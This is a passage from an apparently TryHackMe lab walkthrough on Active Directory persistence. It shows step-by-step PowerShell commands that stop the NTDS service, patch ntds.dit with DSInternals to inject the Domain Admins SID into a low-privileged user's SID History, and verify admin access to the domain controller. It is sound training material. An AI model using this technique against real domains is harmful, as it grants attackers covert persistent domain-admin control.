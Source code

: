 This confirms that our user does not currently have any SID History set. Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:

```markup
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored:

```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds  
```

The NTDS database is locked when the NTDS service is running. In order to patch our SID history, we must first stop the service. **You must restart the NTDS service after the patch, otherwise, authentication for the entire network will not work anymore.**

After these steps have been performed, let's SSH into THMWRK1 with our low-privileged credentials and verify that the SID history was added and that we now have Domain Admin privileges:

```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory 

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc 
Enabled : True 
GivenName : Aaron 
Name : aaron.jones 
ObjectClass : user 
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22 
SamAccountName : aaron.jones 
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512} 
Surname : Jones 
UserPrincipalName : 

PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$ 

Directory: \\thmdc.za.tryhackme.loc\c$ 

Mode LastWriteTime Length Name 
---- ------------- ------ ---- 
d----- 9/15/2018 8:19 AM PerfLogs 
d-r--- 5/11/2022 10:32 AM Program Files 
d----- 3/21/2020 8:28 PM Program Files (x86) 
d----- 4/25/2022 7:13 PM tmp 
da---- 5/11/2022 10:11 AM Tools 
d-r--- 4/27/2022 8:22 AM Users 
d----l 4/25/2022 7:11 PM vagrant 
d----- 4/27/2022 8:12 PM Windows 
```
